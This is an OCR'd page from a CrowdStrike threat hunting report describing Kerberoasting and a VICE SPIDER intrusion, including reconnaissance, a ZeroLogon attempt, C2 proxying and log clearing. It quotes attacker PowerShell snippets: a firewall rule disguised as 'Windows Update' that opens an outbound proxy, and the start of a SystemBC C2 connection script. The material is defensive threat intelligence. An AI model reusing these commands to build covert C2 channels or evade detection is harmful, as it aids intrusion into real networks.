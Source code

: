 Of the interactive intrusions that involved the use of Kerberoasting, Falcon 
OverWatch identified a range of initial access vectors, including password spraying, 
accessing existing remote services through valid accounts, and exploiting 
vulnerable web servers though web application attacks. It is not unusual for Falcon 
OverWatch to observe Kerberoasting being used to facilitate lateral movement from 
a host without appropriate endpoint security coverage. 

6 

For more information on this sub\-technique, see the MITRE website (https://attack.mitre.org/techniques/T1558/003/) 

or the detailed article from CrowdStrike (https://www.crowdstrike.com/cybersecurity\-101/kerberoasting/).

© 2023 CrowdStrike, Inc. All rights reserved. 

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT12

Kerberoasting in Action

In an intrusion by VICE SPIDER, Falcon OverWatch discovered hands\-on\-keyboard activity against a victim 
organization in the academic sector. The compromise was associated with multiple hosts across virtual desktop 
infrastructure (VDI). The threat actor performed basic host reconnaissance to enumerate domain trusts using nltest, 
then enumerated administrator permissions groups and performed connectivity tests to outbound infrastructure. 

Next, the threat actor attempted to exploit the ZeroLogon vulnerability in an attempt to escalate privileges and then 
tested connectivity to a command\-and\-control (C2\) server using ping. The threat actor then executed SystemBC 
and SocksProxyGo through PowerShell to proxy connections to their C2 infrastructure. The adversary was clearly 
mindful of being detected and took several steps to cover their tracks, including setting their proxy connection to 
operate over non\-standard ports, creating a new firewall rule masquerading as a Windows update, and clearing the 
Security, Application and System logs using wevtutil. Further, they removed the registry entry for RunMRU and 
TypedPaths — two locations that would shed light on their interactive activity on the system.

Snippet of SocksProxyGo execution to configure a new outbound firewall rule

New\-NetFirewallRule \-DisplayName "Windows Update" \-Direction Outbound \-Action Allow \-Protocol 

TCP \-RemotePort 443 \-Enabled True \| Out\-Null; Go \-remotePort 443 \-remoteHost "\[REDACTED 

IPAddress]"

Snippet of the SystemBC proxy connection being established

$domain \= '\[REDACTED IPAddress]' \# host $dport \= 4001 \# port $x \= New\-Object byte\[] 50 For 

($i\=0; $i \-ne 50; $i\+\+)
